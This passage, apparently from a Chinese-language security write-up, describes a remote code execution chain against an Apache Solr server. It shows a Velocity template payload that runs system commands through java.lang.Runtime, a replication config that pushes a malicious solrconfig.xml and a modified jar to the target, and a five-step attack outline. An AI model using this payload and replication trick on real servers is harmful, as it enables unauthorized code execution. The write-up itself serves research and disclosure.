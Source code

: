   
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTiaLZvVnPXEED5JBmflm2oxmZbbUp4dIXzwQRmH002GKoVSXV5AfiaGWz2ib9uqicpsRkSMzeQedcYXw/640?wx_fmt=png&from=appmsg "")  
  
  
成功了！现在有了一个理论上可行的RCE漏洞利用方案！接下来，需要在目标服务器上进行测试。  
  
   
  
既然现在已经可以重新编译Velocity插件并分发自定义.jar库，那么如果**直接修改默认的"browse"模板**  
（该模板内置于.jar文件中）会更酷，这样就**不需要额外传输恶意模板**  
了。因此，笔者编辑了src/main/resources/browse.vm  
模板，并创建了一个Poc来执行id  
命令，以证明笔者能够在目标服务器上进行RCE：  
  
```
<title>Hacked by hacefresk0</title> <h1>Hacked by hacefresk0</h1> <br> <pre> #set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])	$str.valueOf($chr.toChars($out.read()))#end </pre>
```  
  
  
  
  
笔者重新编译了.jar库并准备了漏洞利用代码。总结一下，实现目标服务器RCE的步骤如下：  
  
  
1.搭建一个恶意的本地Solr服务器，使其作为目标服务器的从服务器。  
  
2.复制目标Solr服务器的数据集，以防丢失原始数据。  
  
3.将本地服务器配置为主服务器，分发恶意的solrconfig.xml  
文件和修改后的Velocity.jar库，同时提供数据集。  
  
4.触发本地服务器向目标服务器进行数据复制。  
  
5.访问目标服务器上被修改的"browse"模板，从而执行  
id  
命令。  
  
  
由于笔者的本地Solr实例"hacefresk0"已经包含了目标服务器的数据集，于是笔者将其复制请求处理器（replicationrequesthandler）配置为**主服务器**  
，用于为目标服务器提供恶意的solrconfig.xml  
文件和修改后的Velocity.jar库：  
  
  
  
```
<requestHandler name="/replication" class="solr.ReplicationHandler">     <lst name="leader">         <str name="replicateAfter">optimize</str>         <str name="backupAfter">optimize</str>         <str name="confFiles">malicious-solrconfig.xml:solrconfig.xml,solritas-0.9.5.jar,velocity-engine-core-2.1.jar,velocity-tools-generic-3.0.jar</str>     </lst> </requestHandler>
```  
  
  
  
  
这个恶意的solrconfig.xml  
包含了：  
  
一个<lib>  
元素，用  
于导入.jar库。  
  